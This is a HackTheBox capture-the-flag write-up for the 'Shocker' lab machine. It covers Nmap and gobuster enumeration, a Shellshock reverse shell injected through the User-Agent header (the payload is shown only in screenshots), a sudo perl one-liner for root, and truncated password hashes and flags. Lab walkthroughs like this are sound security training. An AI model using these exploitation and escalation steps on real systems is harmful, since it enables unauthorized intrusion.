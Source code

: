 [HackTheBox] Shocker
===============
date: 13/Nov/2019
summary: This is the summary for an awesome post.
tags: hackthebox, writeup

## Overview
![writeup.metadata.infocard](/static/files/posts_htb_shocker/infocard.png.webp)

This is a writeup for HTB VM [Shocker](https://www.hackthebox.eu/home/machines/profile/108). Here's an overview of the `enumeration` → `exploitation` → `privilege escalation` process:

![writeup.overview.killchain](/static/files/posts_htb_shocker/killchain.png.webp)

## Phase #1: Enumeration
1\. Here's the Nmap scan result:  
```
# Nmap 7.70 scan initiated Wed Nov 13 16:00:23 2019 as: nmap -vv --reason -Pn -sV -sC --version-all -oN /root/toolbox/writeups/htb.shocker/results/10.10.10.56/scans/_quick_tcp_nmap.txt -oX /root/toolbox/writeups/htb.shocker/results/10.10.10.56/scans/xml/_quick_tcp_nmap.xml 10.10.10.56
Increasing send delay for 10.10.10.56 from 0 to 5 due to 145 out of 482 dropped probes since last increase.
Nmap scan report for 10.10.10.56
Host is up, received user-set (0.11s latency).
Scanned at 2019-11-13 16:00:24 PST for 25s
Not shown: 998 closed ports
Reason: 998 resets
PORT     STATE SERVICE REASON         VERSION
80/tcp   open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
| http-methods:
|_  Supported Methods: POST OPTIONS GET HEAD
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQD8ArTOHWzqhwcyAZWc2CmxfLmVVTwfLZf0zhCBREGCpS2WC3NhAKQ2zefCHCU8XTC8hY9ta5ocU+p7S52OGHlaG7HuA5Xlnihl1INNsMX7gpNcfQEYnyby+hjHWPLo4++fAyO/lB8NammyA13MzvJy8pxvB9gmCJhVPaFzG5yX6Ly8OIsvVDk+qVa5eLCIua1E7WGACUlmkEGljDvzOaBdogMQZ8TGBTqNZbShnFH1WsUxBtJNRtYfeeGjztKTQqqj4WD5atU8dqV/iwmTylpE7wdHZ+38ckuYL9dmUPLh4Li2ZgdY6XniVOBGthY5a2uJ2OFp2xe1WS9KvbYjJ/tH
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBPiFJd2F35NPKIQxKMHrgPzVzoNHOJtTtM+zlwVfxzvcXPFFuQrOL7X6Mi9YQF9QRVJpwtmV9KAtWltmk3qm4oc=
|   256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIC/RjKhT/2YPlCgFQLx+gOXhC6W3A3raTzjlXQMT8Msk
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Nov 13 16:00:49 2019 -- 1 IP address (1 host up) scanned in 26.24 seconds
```

2\. We try Shellshock related enumeration steps to identify interesting scripts to be used as entrypoint:  
```
gobuster -u 10.10.10.56 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -s 200,204,301,302,307,403
gobuster -u 10.10.10.56 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -s 200,204,301,302,307,403 -k -x sh,pl
nmap -sV -p80 --script http-shellshock --script-args uri=/cgi-bin/user.sh,cmd=ls 10.10.10.56
```

![writeup.enumeration.steps.2.1](/static/files/posts_htb_shocker/screenshot01.png.webp)  

![writeup.enumeration.steps.2.2](/static/files/posts_htb_shocker/screenshot02.png.webp)  

3\. The `user.sh` script looks interesting and we manually confirm that it is vulnerable to Shellshock:  

![writeup.enumeration.steps.3.1](/static/files/posts_htb_shocker/screenshot03.png.webp)  

![writeup.enumeration.steps.3.2](/static/files/posts_htb_shocker/screenshot04.png.webp)  

### Findings
#### Open Ports
```
80/tcp    |  http  |  Apache httpd 2.4.18 ((Ubuntu))
2222/tcp  |  ssh   |  OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
```
#### Files
```
http://10.10.10.56/cgi-bin/user.sh
```

## Phase #2: Exploitation
1\. We inject a Bash reverse shell command within the HTTP User-Agent header and get interactive access on the target system:  

![writeup.exploitation.steps.1.1](/static/files/posts_htb_shocker/screenshot05.png.webp)  

![writeup.exploitation.steps.1.2](/static/files/posts_htb_shocker/screenshot06.png.webp)  

2\. We can now view the contents of the first flag file, `user.txt`:  

![writeup.exploitation.steps.2.1](/static/files/posts_htb_shocker/screenshot07.png.webp)  

## Phase #2.5: Post Exploitation
```
shelly@Shocker> id
uid=1000(shelly) gid=1000(shelly) groups=1000(shelly),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
shelly@Shocker>  
shelly@Shocker> uname
Linux Shocker 4.4.0-96-generic #119-Ubuntu SMP Tue Sep 12 14:59:54 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
shelly@Shocker>  
shelly@Shocker> ifconfig
ens33 Link encap:Ethernet  HWaddr 00:50:56:b9:fe:2c
      inet addr:10.10.10.56  Bcast:10.10.10.255  Mask:255.255.255.0
      inet6 addr: fe80::250:56ff:feb9:fe2c/64 Scope:Link
      inet6 addr: dead:beef::250:56ff:feb9:fe2c/64 Scope:Global
      UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
      RX packets:769099 errors:0 dropped:0 overruns:0 frame:0
      TX packets:542509 errors:0 dropped:0 overruns:0 carrier:0
      collisions:0 txqueuelen:1000
      RX bytes:65025189 (65.0 MB)  TX bytes:92873202 (92.8 MB)
shelly@Shocker>  
shelly@Shocker> users
root
shelly
```

## Phase #3: Privilege Escalation
1\. From the output of the `sudo -l`, we know that the user `shelly` can execute `perl` with `sudo` privileges. We use this to execute Bash and get elevated privileges:  
```
sudo -l
sudo perl -e 'exec "/bin/sh";'
```

![writeup.privesc.steps.1.1](/static/files/posts_htb_shocker/screenshot08.png.webp)  

![writeup.privesc.steps.1.2](/static/files/posts_htb_shocker/screenshot09.png.webp)  

2\. We then view the contents of the `root.txt` file to complete the challenge:  

![writeup.privesc.steps.2.1](/static/files/posts_htb_shocker/screenshot10.png.webp)  

## Loot
### Hashes
```
root:$6$BVgS5ne0$Q6rV3guK7QQUy7uRMwbQ3vv2Y5I9yQUhIzvrIhuiDso/o5UfDxZw7MMq8atR3UdJjhpkFVxVD0cVtjXQd........................
shelly:$6$aYLAoDIC$CJ8f8WSCT6GYmbx7x8z5RfrbTG5mpDkkJkLW097hoiEw3tqei2cE7EcUTYdJTVMSa3PALZeBHjhiFR8Ba........................
```
### Flags
```
/home/shelly/user.txt: 2ec24e11320026d1e70ff...........
/root/root.txt: 52c2715605d70c76190305..........
```

## References
* <https://www.hackthebox.eu/home/machines/profile/108>  
* <https://www.youtube.com/watch?v=IBlTdguhgfY>  
* <https://xd3m0n.xyz/htb_shocker/>  

